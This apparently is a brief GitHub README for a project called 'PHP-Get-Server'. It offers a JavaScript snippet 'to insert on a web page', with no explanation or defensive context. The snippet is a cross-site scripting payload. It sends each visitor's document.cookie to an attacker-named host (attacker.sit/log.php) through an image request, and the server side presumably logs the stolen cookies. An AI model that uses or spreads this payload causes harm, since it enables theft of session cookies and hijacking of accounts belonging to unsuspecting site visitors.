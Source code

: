 # PHP-Get-Server
php get server 

Code to insert on a web page:


<script>
var i = new Image();
i.src="http://attacker.sit/log.php?q="+document.cookie;
</script>
